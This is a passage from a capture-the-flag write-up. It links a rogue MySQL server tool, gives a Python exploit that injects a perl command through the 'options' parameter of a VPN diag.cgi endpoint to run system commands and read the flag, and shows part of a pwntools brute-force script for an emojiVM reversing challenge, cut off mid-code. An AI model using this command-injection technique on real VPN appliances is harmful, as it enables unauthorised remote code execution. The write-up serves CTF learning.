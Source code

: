 ```
Connection: close


```


The evil mysql server:

https://github.com/allyshka/Rogue-MySql-Server


### Virtual Public Network
Read [orange BH2019 talk](https://i.blackhat.com/USA-19/Wednesday/us-19-Tsai-Infiltrating-Corporate-Intranet-Like-NSA.pdf). From the `diag.cgi`, we know that it has provided an argument `tpl` for including our perl output into response.

```python

import requests
import urllib2


def run(cmd):
    options = "-r '$x=\"%s\",system$x#' 2>./tmp/m3m3da.thtml <" % cmd
    gogo = urllib2.quote(options)
    url = "http://13.231.137.9/cgi-bin/diag.cgi?tpl=m3m3da&options=" + gogo

    print url
    r = requests.get(url)

    print r
    print '-' * 100
    print cmd
    print
    print r.text

run("/*READ_FLAG*")
```


## Reverse

### emojiVM

patch the binary to output the variable that record the number of steps then brute force to find the key

```python
from pwn import *
import sys
res = b'xxxx-xxxx-xxxx-xxxx-xxxx'
s = ""
flag = 0
maxx = 0
for scsa in range(25):
	for i in range(30,128):	
		#s = res
		p=process(['./emojivm','./chal.evm'])
		p.recvuntil('Please input the secret: ')
		s = res[:flag]
		s += chr(i)
		s += res[flag+1:]
		print s
		p.send(s)
		x = p.recvuntil('\n')
		if x =='\xf0\x9f\x98\xad\n':
```